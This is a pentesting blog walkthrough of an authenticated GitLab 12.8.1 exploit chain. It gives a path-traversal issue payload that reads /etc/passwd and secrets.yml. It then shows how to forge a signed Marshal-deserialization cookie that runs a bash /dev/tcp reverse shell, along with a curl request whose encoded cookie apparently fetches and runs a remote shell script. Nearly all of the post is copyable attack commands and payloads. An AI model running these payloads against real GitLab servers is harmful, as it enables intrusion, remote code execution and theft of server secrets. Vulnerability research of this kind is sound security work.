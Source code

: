 ```yaml
---
title: Gitlab Exploit (Authenticated) - Arbitrary file read and RCE
author: Udesh
date: 2021-05-04
categories: [Pentesting]
tags: [Pentesting]
image: /assets/img/post/post9/0.png
---
```


This blog post will cover arbitrary file read vulnerability in GitLab 12.8.1.The vulnerability occurs when moving and issues between projects. [here](https://hackerone.com/reports/827052 "here") you can find the vulnerability in hackerone. Also we can turn this vulnerability into RCE as the *cookies_serializer*. 

## Step 1: Arbitrary file read
First, we need to create two projects. Create two projects and name them Project 1 and Project 2. 

 ![1.PNG]({{site.baseurl}}/assets/img/post/post9/1.PNG)

Then go into project 1 and create an issue. Under Description, field put the following payload and click on submit the issue.

```shell
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)  

```
![2.PNG]({{site.baseurl}}/assets/img/post/post9/2.PNG) 

Then select **Move issue** at bottom most right corner and select project 2 and finally click on **Move **to  move this issue to project 2. 

![3.PNG]({{site.baseurl}}/assets/img/post/post9/3.PNG) 

Once your issue is moved to project 2 you can see an attachment of passwd below. Click on the attachment of the passwd to download it.

![4.PNG]({{site.baseurl}}/assets/img/post/post9/4.PNG) 

Now we have confirmed that we can read the internal server files by this vulnerability.

## Step 2: RCE

We can turns this arbitrary file read into remote code execution. this can be done by first grabbing the **secret_key_base** value from **secrets.yml** using the arbitrary file read and then use the **experimentation_subject_id** cookie with a Marshalled payload.

Following the above step, now we can grab the **secret_key_base** value from **secrets.yml** which is located in **/opt/gitlab/embedded/service/gitlab-rails/config/** and use this to perform an RCE. 

![5.PNG]({{site.baseurl}}/assets/img/post/post9/5.PNG) 

According to the hackerone report  [here](https://hackerone.com/reports/827052 "here") we need to self-hosted gitlab to get the  Marshalled payload. For this, I am going to install GitLab image in my docker as a container. 

```shell
sudo docker run --rm -d -p 4443:443 -p 8090:80 -p 2222:22 --name gitlab gitlab/gitlab-ce:12.8.1-ce.0
sudo docker exec -ti bash
```
After that we need to replace the **secret_key_base** in **secrets.yml** file in our local gitlab instance. In the local gitlab server swap the **secret_key_base** value that we grabbed above. 

```shell
nano /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml
```
![6.PNG]({{site.baseurl}}/assets/img/post/post9/6.PNG) 

After reconfigured our GitLab server we can create Marshalled Payload by putting following payloads in gitlab-rails console one by one.

First we need to start rails console.
```shell
gitlab-rails console
```
![7.PNG]({{site.baseurl}}/assets/img/post/post9/7.PNG) 

for cookie generation

```shell
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar
erb = ERB.new("<%= `bash -c 'bash -i >& /dev/tcp/YOUR IP PORT 0>&1'` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```
We have got a marshalled payload. You can assume it as a cookie. Now using this cookie we will make request to https://gitlabserver.com/users/sign_in and this will get reverse connection on our netcat listener.

```shell
curl -vvv -k 'https://gitlabserver.com/users/sign_in' -b "experimentation_subject_id=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiaSNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBjdXJsIGh0dHA6Ly8xMC4xMC4xNC4xMy9zaGVsbC5zaCB8IGJhc2hgICkudG9fcyk7IF9lcmJvdXQGOgZFRjoOQGVuY29kaW5nSXU6DUVuY29kaW5nClVURi04BjsKRjoTQGZyb3plbl9zdHJpbmcwOg5AZmlsZW5hbWUwOgxAbGluZW5vaQA6DEBtZXRob2Q6C3Jlc3VsdDoJQHZhckkiDEByZXN1bHQGOwpUOhBAZGVwcmVjYXRvckl1Oh9BY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbgAGOwpU--94b17553fb6a110472a87df915e1a5765a25219b"

```
![8.PNG]({{site.baseurl}}/assets/img/post/post9/8.PNG) 

😎
## References
https://hackerone.com/reports/827052



